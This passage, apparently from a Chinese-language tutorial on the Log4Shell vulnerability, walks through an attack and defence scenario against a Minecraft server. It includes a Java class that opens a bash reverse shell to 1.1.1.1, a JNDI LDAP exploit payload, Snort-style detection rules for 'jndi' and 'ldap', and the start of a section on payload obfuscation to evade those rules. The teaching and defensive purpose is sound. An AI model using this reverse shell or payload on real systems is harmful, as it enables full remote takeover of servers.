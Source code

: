 攻击者修改病毒代码，不再打开计算器，而是建立后门连接：

```java
public class Log4jRCE {
    static {
        try {
            String cmd = "/bin/bash -c 'exec 5<>/dev/tcp/1.1.1.1/443;cat <&5 | while read line; do $line 2>&5 >&5; done'";
            Process p = new ProcessBuilder("bash", "-c", cmd).start();
        } catch (Exception e) {}
    }
}
```

**攻击者重新编译病毒，再次发送载荷：**

```
${jndi:ldap://1.1.1.1:995/Log4jRCE}
```

**结果：** 攻击者获得了目标服务器的完全控制权，可以执行任何命令！

## 初级防御反击

### 部署防火墙规则

管理员发现被攻击后，紧急部署防火墙规则：

```
# 检查所有发往Minecraft服务器的数据包
alert tcp any any -> 2.2.2.2 25565 (content: "jndi"; msg: "发现攻击！"; sid:1)
alert tcp any any -> 2.2.2.2 25565 (content: "ldap"; msg: "发现攻击！"; sid:2)
alert tcp any any -> 2.2.2.2 25565 (content: "Log4j"; msg: "发现攻击！"; sid:3)
```

**用人话说：** 就像在邮局设置规则："凡是信件内容包含'jndi'、'ldap'、'Log4j'这些可疑词汇的，一律拦截！"

### 防御测试

**攻击者再次尝试相同载荷：**

```
${jndi:ldap://1.1.1.1:995/Log4jRCE}
```

**结果：** 攻击失败！防火墙成功拦截了攻击。

## 攻击升级-载荷混淆技术

### 攻击者的反击：隐藏攻击载荷

攻击者想："既然防火墙检查关键词，我就把关键词藏起来！"

**混淆技术原理：** Log4j 支持嵌套解析，可以把字符分开写，运行时再拼接：

**1. 隐藏"jndi"：**
